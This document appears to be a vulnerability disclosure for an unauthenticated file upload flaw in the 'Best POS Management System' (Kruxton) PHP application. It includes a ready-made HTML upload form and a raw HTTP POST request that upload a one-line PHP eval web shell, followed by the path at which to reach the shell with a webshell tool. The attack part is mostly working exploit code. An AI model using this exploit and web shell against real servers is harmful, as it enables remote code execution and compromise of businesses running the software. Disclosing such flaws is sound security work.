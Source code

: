 

The Best pos management system has a foreground file upload vulnerability that could be exploited by an attacker to upload malicious files without authentication, thereby compromising or exploiting the server.



Source code address：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html



The vulnerability is located in the /kruxton/admin_class.php file, from 164 lines of code to 167 roughly means that the uploaded file type is not verified, the original file name is retained and the time stamp is added to the file name, and the uploaded file will be saved under assets/uploads/.

![image-20250315000626683](images/image-20250315000626683.png)



Vulnerability verification：

Mode one：

Construct the upload.html page upload

```
<!DOCTYPE html>
<html>
<head>
    <title>Kruxton Bristo 文件上传</title>
</head>
<body>
    <h2>网站设置上传</h2>
    <form id="uploadForm" 
          action="http://192.168.80.152/kruxton/kruxton/ajax.php?action=save_settings" 
          method="POST" 
          enctype="multipart/form-data">
        
        <div>
            <label>名称:</label>
            <input type="text" name="name" value="Kruxton Bristo By Mayuri K">
        </div>

        <div>
            <label>邮箱:</label>
            <input type="email" name="email" value="mayuri.infospace@gmail.com">
        </div>

        <div>
            <label>联系方式:</label>
            <input type="text" name="contact" value="9000000000">
        </div>

        <div>
            <label>关于我们:</label><br>
            <textarea name="about" rows="6" cols="50"><p>Kruxton Bristo By Mayuri K</p><p data-f-id="pbf" style="text-align: center; font-size: 14px; margin-top: 30px; opacity: 0.65; font-family: sans-serif;">Powered by <a href="https://www.froala.com/wysiwyg-editor?pb=1" title="Froala Editor">Froala Editor</a></p></textarea>
        </div>

        <div>
            <label>上传文件:</label>
            <input type="file" name="img">
        </div>

        <button type="submit">提交设置</button>
    </form>

</body>
</html>

```





Mode two：

Send the data packet directly to upload, the status code is 302, but the server still successfully uploaded the file

```
POST /kruxton/kruxton/ajax.php?action=save_settings HTTP/1.1
Host: 192.168.80.152
Content-Length: 918
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylSEcBbLB2M9fZfsG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarylSEcBbLB2M9fZfsG
Content-Disposition: form-data; name="name"

Kruxton Bristo By Mayuri K
------WebKitFormBoundarylSEcBbLB2M9fZfsG
Content-Disposition: form-data; name="email"

mayuri.infospace@gmail.com
------WebKitFormBoundarylSEcBbLB2M9fZfsG
Content-Disposition: form-data; name="contact"

9000000000
------WebKitFormBoundarylSEcBbLB2M9fZfsG
Content-Disposition: form-data; name="about"

<p>Kruxton Bristo By Mayuri K</p><p data-f-id="pbf" style="text-align: center; font-size: 14px; margin-top: 30px; opacity: 0.65; font-family: sans-serif;">Powered by <a href="https://www.froala.com/wysiwyg-editor?pb=1" title="Froala Editor">Froala Editor</a></p>
------WebKitFormBoundarylSEcBbLB2M9fZfsG
Content-Disposition: form-data; name="img"; filename="kru.php"
Content-Type: application/octet-stream

<?php
eval($_POST["pass1"]);

------WebKitFormBoundarylSEcBbLB2M9fZfsG--

```

![image-20250315000402866](images/image-20250315000402866.png)



Use any webshell administration tool to connect

The path is：http://192.168.80.152/kruxton/kruxton/assets/uploads/1741451460_kru.php

![image-20250315000419189](images/image-20250315000419189.png)













